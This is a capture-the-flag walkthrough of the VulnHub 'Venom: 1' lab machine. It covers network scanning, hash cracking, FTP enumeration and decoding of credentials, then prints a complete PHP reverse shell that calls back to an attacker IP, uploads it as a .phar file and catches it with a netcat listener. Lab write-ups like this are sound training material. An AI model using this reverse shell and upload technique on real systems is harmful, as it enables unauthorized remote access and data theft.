::::::::::::::::::::::::::::::::::: page
# Venom: 1 {#venom-1 .title}

\

## 

## Venom: 1

- **[Venom: 1]{style="color:#060f94;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/venom-1,701/>



- Now unzip the file .

::: codebox
    unzip venom.zip 
:::



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#f6d32d;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.164
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.164
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.164  
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.164
:::

1.  [Web Enumeration]{style="color:#f6d32d;"} :

- IP visit in port 80 : <http://192.168.2.164/>

<!-- -->

- View the source code : view-source:<http://192.168.2.164/>



- Hash identify :

::: codebox
    hash-identifier 5f2a66f947fa5690c26506f660de5c23
:::



- Crack the hash :

::: codebox
    hashcat -m 0 5f2a66f947fa5690c26506f66bde5c23 /opt/rockyou.txt --force
:::



1.  [FTP Enumeration]{style="color:#f6d32d;"} :

- FTP Login :

::: codebox
    ftp 192.168.2.164
:::

- Check the file list and navigate the directory :

::: codebox
    ls
:::

- 

::: codebox
    cd files
:::

- 

::: codebox
    ls
:::

- Download the file :

::: codebox
    get hint.txt
:::



- Read the hint file :

::: codebox
    cat hint.txt
:::



- Decode the base64 string value :

::: codebox
    echo "WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=" | base64 -d
:::

- 

::: codebox
    echo "YzNSaGJtUmhjbVFnZG1sblpXNWxjbVVnWTJsd2FHVnk=" | base64 -d
:::

- 

::: codebox
    echo "c3RhbmRhcmQgdmlnZW5lcmUgY2lwaGVy" | base64 -d
:::

- 

::: codebox
    echo "aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=" | base64 -d
:::



- Visit the url : <https://cryptii.com/pipes/vigenere-cipher>



- Decode the password value :

::: codebox
    L7f9l8@J#p%Ue+Q1234
:::



- Now i have username and password :

::: codebox
    Username : dora
    Password : E7r9t8@Q#h%Hy+M1234
:::

- Entry in host file :

::: codebox
    nano /etc/hosts
:::



- Visit hostname : <http://venom.box/>

<!-- -->

- Click go to admin dashboard .

<!-- -->

- Found the /panel parameter : <http://venom.box/panel/>



1.  [Reverse Shell]{style="color:#f6d32d;"} :

- Make a file :

::: codebox
    nano reverse_shell.phar
:::

- Reverse shell payload :

::: codebox
    <?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.2.219';  // CHANGE THIS
    $port = 443;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    //
    // Daemonise ourself if possible to avoid zombies later
    //

    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
      $pid = pcntl_fork();
      
      if ($pid == -1) {
         printit("ERROR: Can't fork");
           exit(1);
      }
     
      if ($pid) {
           exit(0);  // Parent exits
     }

       // Make the current process a session leader
      // Will only succeed if we forked
     if (posix_setsid() == -1) {
           printit("Error: Can't setsid()");
           exit(1);
      }

       $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    // Change to a safe directory
    chdir("/");

    // Remove any umask we inherited
    umask(0);

    //
    // Do the reverse shell...
    //

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }

    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
      printit("ERROR: Can't spawn shell");
        exit(1);
    }

    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
       // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
          break;
        }

       // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
         break;
        }

       // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
     $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
       // data to process's STDIN
        if (in_array($sock, $read_a)) {
           if ($debug) printit("SOCK READ");
           $input = fread($sock, $chunk_size);
           if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }

       // If we can read from the process's STDOUT
       // send data down tcp connection
      if (in_array($pipes[1], $read_a)) {
           if ($debug) printit("STDOUT READ");
         $input = fread($pipes[1], $chunk_size);
           if ($debug) printit("STDOUT: $input");
          fwrite($sock, $input);
        }

       // If we can read from the process's STDERR
       // send data down tcp connection
      if (in_array($pipes[2], $read_a)) {
           if ($debug) printit("STDERR READ");
         $input = fread($pipes[2], $chunk_size);
           if ($debug) printit("STDERR: $input");
          fwrite($sock, $input);
        }
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
       if (!$daemon) {
           print "$string\n";
      }
    }

    ?> 
:::

- Now upload the file :

::: codebox
    Content > Uploads > Click on uploads file > select files >upload you reverse shell
:::

 I have upload a .phar file .

- Start the listener :

::: codebox
    nc -nlvp 443
:::

- Now call the file :

::: codebox
    http://venom.box/uploads/reverse_shell.phar
:::

- Finally got the shell :



- Read the /etc/passwd file :

::: codebox
    cat /etc/paswd
:::



- Navigate the directory :

::: codebox
    cd /var/backup.bak
:::

- List the hidden file :

::: codebox
    ls -lha
:::



- Read the txt file :

::: codebox
    cat .backup.txt
:::



- Now stable TTY terminal :

::: codebox
    python3 -c 'import pty; pty.spawn("/bin/bash")'
:::

- Switch the hostinger user :

::: codebox
    su hostinger
:::


:::::::::::::::::::::::::::::::::::
